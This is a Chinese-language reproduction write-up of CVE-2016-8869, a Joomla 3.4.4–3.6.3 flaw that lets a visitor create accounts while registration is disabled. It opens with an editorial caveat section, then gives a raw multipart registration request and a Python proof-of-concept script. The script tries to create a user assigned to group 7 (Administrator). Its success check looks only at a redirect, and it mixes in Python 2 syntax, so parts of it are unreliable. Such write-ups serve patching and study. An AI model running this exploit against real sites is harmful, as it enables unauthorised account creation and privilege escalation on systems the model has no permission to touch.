


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：注册入口接受user.register、访客session/token；账号激活取决注册开关和激活设置

- **事实待核（1）**：正文先演示普通账号创建，附脚本才含user\[groups\]\[\]=7，注册绕过与特权赋值的CVE关联需分别核验。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **操作与副作用边界（2）**：明确关闭注册时邮件也不能激活且activation覆盖，不能把账号创建报成可登录管理员接管。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **适用与权限边界（3）**：脚本以跳转URL判漏洞不检查权限/激活，固定代理缺协议、Python2；图大量指其他CVE且尾片污染。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2016-8869）Joomla 3.4.4-3.6.3 未授权创建特权用户
======================================================

一、漏洞简介
------------

网站关闭注册的情况下仍可创建用户，默认状态下用户需要用邮件激活，但需要开启注册功能才能激活。

二、漏洞影响
------------

Joomla 3.4.4-3.6.3

三、复现过程
------------

-   首先在后台关闭注册功能，关闭后首页没有注册选项：

Joomla3.4.4-3.6.3未授权创建特权用户/media/rId24.png)

-   .然后通过访问index.php抓包获取cookie，通过看index.php源码获取token：

Joomla3.4.4-3.6.3未授权创建特权用户/media/rId25.png)

-   构造注册请求：

```{=html}
<!-- -->
```
    POST /index.php/component/users/?task=registration.register HTTP/1.1
    ...
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryefGhagtDbsLTW5qI
    ...
    Cookie: yourcookie

    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[name]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[username]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[password1]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[password2]"

    attacker
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[email1]"

    attacker@my.local
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="user[email2]"

    attacker@my.local
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="option"

    com_users
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="task"

    user.register
    ------WebKitFormBoundaryefGhagtDbsLTW5qI
    Content-Disposition: form-data; name="yourtoken"

    1
    ------WebKitFormBoundaryefGhagtDbsLTW5qI--

-   发包，成功注册：

Joomla3.4.4-3.6.3未授权创建特权用户/media/rId26.png)

### 补充

**2016-10-27 更新：**默认情况下，新注册的用户需要通过注册邮箱激活后才能使用。并且：

Joomla3.4.4-3.6.3未授权创建特权用户/media/rId28.jpg)

由于`$data['activation']`的值会被覆盖，所以我们也没有办法直接通过请求更改用户的激活状态。

**2016-11-01 更新：**

感谢三好学生和D的提示，可以使用邮箱激活的前提是网站开启了注册功能，否则不会成功激活。

我们看激活时的代码，在`components/com_users/controllers/registration.php`中第28-99行的activate函数：

    public function activate()
    {
        $user    = JFactory::getUser();
        $input   = JFactory::getApplication()->input;
        $uParams = JComponentHelper::getParams('com_users');
        ...

        // If user registration or account activation is disabled, throw a 403.
        if ($uParams->get('useractivation') == 0 || $uParams->get('allowUserRegistration') == 0)
        {
            JError::raiseError(403, JText::_('JLIB_APPLICATION_ERROR_ACCESS_FORBIDDEN'));

            return false;
        }

        ...
    }

这里可以看到仅当开启注册功能时才允许激活，否则返回403。

### poc

Joomla3.4.4-3.6.3未授权创建特权用户/media/rId30.png)

    # coding: utf-8
    # CVE-2016-8869
    # author: Anka9080

    import re
    import requests
    import random

    def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
            print("[!] Cannot find CSRF token")
            return None
        print('[*] Your token is '+match.group(1))
        return match.group(1)

    def poc(target):
        headers = {
            "Content-Type":"application/x-www-form-urlencoded"
        }
        proxies = {
            'http':'127.0.0.1:8080'
        }
        s = requests.Session()
        r = s.get(target+'index.php/component/users/?task=registration.register',proxies=proxies) # get cookie
        token = extract_token(r)
        # print r.headers
        randstr = '_'+str(random.randint(1,10000))
        # build post data
        print('[*] create user: {}'.format('admin'+randstr))
        data = {
            # User object
            'task':(None,'user.register'),
            'option':(None,'com_users'),
            'user[name]': (None,'admin'+randstr),
            'user[username]': (None,'admin'+randstr),
            'user[password1]': (None,'admin'),
            'user[password2]': (None,'admin'),
            'user[email1]': (None,'admin'+randstr +'@xx.com'),
            'user[email2]': (None,'admin'+randstr +'@xx.com'),
            'user[groups][]': (None,'7'),   #  Administrator!
            token:(None,'1')
        }
        try:
            r = s.post(target+'index.php/component/users/?task=registration.register',files=data,proxies=proxies,allow_redirects=False)
            if 'index.php?option=com_users&view=registration' in r.headers['location']:
                print('[+] {} is vul !'.format(target))
                return True
        except Exception , e:
            print('[!] err: {}'.format(str(e)))

        return False


    if __name__ == '__main__':
        poc('http://localhost/joomla/Joomla_3.6.3-Stable-Full_Package/')    

参考链接
--------

> https://paper.seebug.org/86/
